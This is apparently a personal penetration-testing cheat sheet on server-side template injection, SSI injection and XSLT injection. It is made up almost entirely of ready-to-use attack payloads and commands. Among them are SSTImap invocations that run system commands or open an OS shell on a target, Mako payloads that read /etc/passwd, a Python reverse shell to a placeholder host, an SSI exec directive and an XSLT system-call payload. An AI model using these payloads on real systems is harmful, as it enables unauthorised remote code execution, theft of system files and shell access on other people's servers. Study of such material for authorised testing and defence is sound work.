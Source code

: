 # SSTI

## Resources
- [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
- [Hacktricks SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [SSTImap](https://github.com/vladko312/SSTImap)

## Detection
Insert this and check if there's an error
```
${{<%[%'"}}%\.
```

## SSTImap
### Setup
```bash
git clone https://github.com/vladko312/SSTImap.git; cd SSTImap; pip3 install -r requirements.txt
```
### Usage
#### Detect
```bash
python3 sstimap.py -u http://<host>/index.php?fieldUsedInTemplate=xxx
```
#### Run system commands
```bash
python3 sstimap.py -u http://<host>/index.php?fieldUsedInTemplate=xxx -e Mako -S id
```
#### OS Shell
```bash
python3 sstimap.py -u http://<host>/index.php?fieldUsedInTemplate=xxx -e Mako --os-shell
```

## Engine specific
### Mako
```python
${4+4}
<%import os;x=os.popen('cat /etc/passwd').read()%>${x}
<%from pathlib import Path;x=Path('/etc/passwd').read_text()%>${x}
<%import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);%>
```

# SSI Injection

## Common file extensions

```
.shtml
.shtm
.stm    
```

## Useful directives

```html
<!--#exec cmd="whoami" -->
<!--#include virtual="some-source.js" -->
```

# XSLT Injection

```xml
<xsl:value-of select="php:function('system','id')" />
```